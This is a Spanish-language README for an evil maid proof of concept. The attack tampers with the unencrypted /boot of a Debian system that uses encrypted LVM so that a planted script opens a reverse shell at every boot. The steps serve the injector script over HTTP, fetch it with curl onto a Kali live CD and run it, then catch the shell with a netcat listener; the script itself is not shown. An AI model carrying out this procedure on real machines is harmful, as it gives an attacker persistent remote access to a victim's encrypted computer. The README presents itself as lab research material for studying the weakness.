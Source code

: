 # EvilMaid en Linux

POC para ejecutar un ataque evil maid a un sistema con Debian en el archivo init.

No es necesario guardar contraseñas, ni engañar al usuario.
Esto es posible dado que si se instala el sistema con "Encrypted LVM" no se encripta la partición de /boot

## Requisitos

- Un USB o archivo de disco con una distribución de Linux en LiveCD como Kali.
- Un sistema que puedas encriptar normalmente el disco y que no encripte /boot,
  ejemplo Debian con la opción de "Guided installation with encrypted LVM"
- vMWare Fusion, VirtualBox, UTM o cualquier virtualizador si se desea hacer un lab.

## Pasos

1. Instalar Debian con la opción de "Guided installation with encrypted LVM".
   En este caso utilice https://cdimage.debian.org/mirror/cdimage/archive/11.1.0/arm64/iso-cd/
   lo utilice en arm64 porque se realizo en una computadora con Apple Silicon.
2. Descargar y flashear el LiveCD de Kali Linux en un USB o dejar el disco en la computadora si se virtualiza.
   Kali: https://www.kali.org/get-kali/#kali-live
   Flasheo: https://etcher.balena.io/
3. Después de haber configurado Debian, apagar y bootear desde Kali,
   mediante la asignación del iso de Kali en el CD/DVD de vMWare Fusion.
   Iniciar desde firmware el VM y bootear desde el CD.
4. Pasar él `em_shell_injector.sh` desde alguna computadora o servidor web hacia el live cd

```
# Servidor de archivos en macOS de atacante
python3 -m http.server 80

# Traer los archivos desde el Live CD
curl http://IP/em_shell_injector.sh -o em_shell_injector.sh
```

5. Ejecutar el script en el Live CD de Kali

```
chmod +x em_shell_injector.sh
./em_shell_injector.sh
```

6. Abrir un puerto en la máquina atacante para recibir el reverse shell

```
nc -lv 4242
```

7. Bootear nuevamente la VM y entrar normalmente.
   Debera ejecutarse el script cada minuto
   y el reverse shell debería haberse realizado.

Referencias:
- https://debugging.works/blog/evil-maid-attack/
- https://www.cron.dk/evil-maid-encrypt-your-harddrive/
- https://github.com/x821938/Evil-Maid-POC
- https://github.com/AonCyberLabs/EvilAbigail
- https://github.com/robertchrk/evilmaid
- https://github.com/kmille/evil-maid-attack-on-encrypted-boot
- https://twopointfouristan.wordpress.com/2011/04/17/pwning-past-whole-disk-encryption/
- https://www.wzdftpd.net/blog/implementing-the-evil-maid-attack-on-linux-with-luks.html
- https://debugging.works/blog/your-fde-is-useless/
- https://github.com/curtishoughton/Penetration-Testing-Cheat-Sheet/blob/master/File-Transfer/readme.md
- https://www.hackingarticles.in/file-transfer-cheatsheet-windows-and-linux/

# Disclaimer

Este código es solo para fines educativos y de investigación. No se debe utilizar para actividades ilegales o no éticas.
El uso indebido de este código puede resultar en consecuencias legales.
El autor no se hace responsable de ningún daño o pérdida que pueda resultar del uso de este código.
```